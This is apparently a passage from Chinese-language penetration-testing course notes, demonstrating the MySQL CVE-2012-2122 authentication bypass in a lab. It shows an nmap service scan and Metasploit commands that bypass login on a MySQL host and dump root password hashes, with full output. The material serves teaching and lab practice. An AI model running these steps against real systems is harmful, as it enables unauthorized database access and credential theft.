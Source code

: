 <a name="rSdTO"></a>
### 四、演示案例
<a name="qlWwB"></a>
#### 1、上述涉及的基础知识

<a name="EZk1v"></a>
#### 2、演示某操作系统层面漏洞

<a name="UpYyq"></a>
#### 3、演示某数据库弱口令及漏洞演示
**方法1**<br />漏洞探测
```bash
参考文档：https://vulhub.org/#/environments/mysql/CVE-2012-2122/

┌──(root💀kali)-[~]
└─# nmap -O -sV 10.1.1.133
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-08 11:09 CST
Nmap scan report for 10.1.1.133 (10.1.1.133)
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
3306/tcp open  mysql   MySQL 5.5.23
MAC Address: 00:0C:29:13:E9:61 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.88 seconds
```
漏洞利用
```bash
msf6 auxiliary(scanner/mysql/mysql_hashdump) > use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > set rhosts 10.1.1.133
rhosts => 10.1.1.133
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > set threads 10
threads => 10
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > run

[+] 10.1.1.133:3306       - 10.1.1.133:3306 The server allows logins, proceeding with bypass test
[*] 10.1.1.133:3306       - 10.1.1.133:3306 Authentication bypass is 10% complete
[*] 10.1.1.133:3306       - 10.1.1.133:3306 Authentication bypass is 20% complete
[*] 10.1.1.133:3306       - 10.1.1.133:3306 Authentication bypass is 30% complete
[*] 10.1.1.133:3306       - 10.1.1.133:3306 Authentication bypass is 40% complete
[*] 10.1.1.133:3306       - 10.1.1.133:3306 Authentication bypass is 50% complete
[*] 10.1.1.133:3306       - 10.1.1.133:3306 Authentication bypass is 60% complete
[*] 10.1.1.133:3306       - 10.1.1.133:3306 Authentication bypass is 70% complete
[*] 10.1.1.133:3306       - 10.1.1.133:3306 Authentication bypass is 80% complete
[+] 10.1.1.133:3306       - 10.1.1.133:3306 Successfully bypassed authentication after 847 attempts. URI: mysql://root:DBrmCST@10.1.1.133:3306
[+] 10.1.1.133:3306       - 10.1.1.133:3306 Successfully exploited the authentication bypass flaw, dumping hashes...
[+] 10.1.1.133:3306       - 10.1.1.133:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 10.1.1.133:3306       - 10.1.1.133:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 10.1.1.133:3306       - 10.1.1.133:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
```